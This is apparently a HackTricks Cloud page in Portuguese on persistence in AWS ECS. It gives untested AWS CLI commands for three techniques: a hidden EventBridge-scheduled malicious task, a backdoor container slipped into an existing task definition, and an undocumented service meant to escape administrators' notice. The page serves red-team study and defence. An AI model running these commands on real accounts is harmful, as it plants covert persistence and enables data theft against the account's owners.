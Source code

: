 # AWS - Persistência do ECS

{% hint style="success" %}
Aprenda e pratique Hacking na AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Treinamento HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking no GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Treinamento HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Verifique os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## ECS

Para mais informações, consulte:

{% content-ref url="../aws-services/aws-ecs-enum.md" %}
[aws-ecs-enum.md](../aws-services/aws-ecs-enum.md)
{% endcontent-ref %}

### Tarefa Periódica Oculta do ECS

{% hint style="info" %}
A FAZER: Testar
{% endhint %}

Um atacante pode criar uma tarefa periódica oculta do ECS usando o Amazon EventBridge para **agendar a execução de uma tarefa maliciosa periodicamente**. Essa tarefa pode realizar reconhecimento, exfiltrar dados ou manter persistência na conta da AWS.
```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
{
"name": "malicious-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
}
]'

# Create an Amazon EventBridge rule to trigger the task periodically
aws events put-rule --name "malicious-ecs-task-rule" --schedule-expression "rate(1 day)"

# Add a target to the rule to run the malicious ECS task
aws events put-targets --rule "malicious-ecs-task-rule" --targets '[
{
"Id": "malicious-ecs-task-target",
"Arn": "arn:aws:ecs:region:account-id:cluster/your-cluster",
"RoleArn": "arn:aws:iam::account-id:role/your-eventbridge-role",
"EcsParameters": {
"TaskDefinitionArn": "arn:aws:ecs:region:account-id:task-definition/malicious-task",
"TaskCount": 1
}
}
]'
```
### Backdoor Container em Definição de Tarefa ECS Existente

{% hint style="info" %}
TODO: Testar
{% endhint %}

Um atacante pode adicionar um **contêiner de backdoor furtivo** em uma definição de tarefa ECS existente que é executada junto com contêineres legítimos. O contêiner de backdoor pode ser usado para persistência e realizar atividades maliciosas.
```bash
# Update the existing task definition to include the backdoor container
aws ecs register-task-definition --family "existing-task" --container-definitions '[
{
"name": "legitimate-container",
"image": "legitimate-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
},
{
"name": "backdoor-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": false
}
]'
```
### Serviço ECS não documentado

{% hint style="info" %}
TODO: Testar
{% endhint %}

Um atacante pode criar um **serviço ECS não documentado** que executa uma tarefa maliciosa. Ao definir o número desejado de tarefas como mínimo e desativar o registro, torna-se mais difícil para os administradores notarem o serviço malicioso.
```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
{
"name": "malicious-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
}
]'

# Create an undocumented ECS service with the malicious task definition
aws ecs create-service --service-name "undocumented-service" --task-definition "malicious-task" --desired-count 1 --cluster "your-cluster"
```
{% hint style="success" %}
Aprenda e pratique AWS Hacking: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Treinamento HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Treinamento HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte o HackTricks</summary>

* Verifique os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
